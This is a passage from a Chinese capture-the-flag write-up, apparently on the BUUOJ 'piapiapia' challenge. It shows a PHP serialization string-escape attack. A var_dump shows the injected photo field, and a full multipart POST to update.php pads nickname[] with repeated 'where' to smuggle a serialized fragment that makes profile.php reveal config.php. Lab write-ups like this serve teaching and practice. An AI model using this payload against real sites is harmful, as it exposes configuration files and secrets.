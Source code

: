 ```php
array(4) {
  'phone' =>
  string(11) "12345678912"
  'email' =>
  string(10) "123@qq.com"
  'nickname' =>
  array(1) {
    [0] =>
    string(204) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  }
  'photo' =>
  string(10) "config.php"
}
*/
```
可以看到成功注入了 photo 字段. 访问 update 页面, 发包时将 nickname 改为数组的形式:
```http
POST /update.php HTTP/1.1
Host: fe5856ed-f492-4f4b-ba4f-fd34c09ed30e.node4.buuoj.cn:81
Content-Length: 42204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fe5856ed-f492-4f4b-ba4f-fd34c09ed30e.node4.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZN7nsGI9VfzzoC75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fe5856ed-f492-4f4b-ba4f-fd34c09ed30e.node4.buuoj.cn:81/update.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=5f0e93753e1bd5fcfa584e4d9aaa9f40
Connection: close

------WebKitFormBoundaryZN7nsGI9VfzzoC75
Content-Disposition: form-data; name="phone"

12345678912
------WebKitFormBoundaryZN7nsGI9VfzzoC75
Content-Disposition: form-data; name="email"

123@qq.com
------WebKitFormBoundaryZN7nsGI9VfzzoC75
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```
再次访问 profile.php 就可以拿到 config.php 的内容.
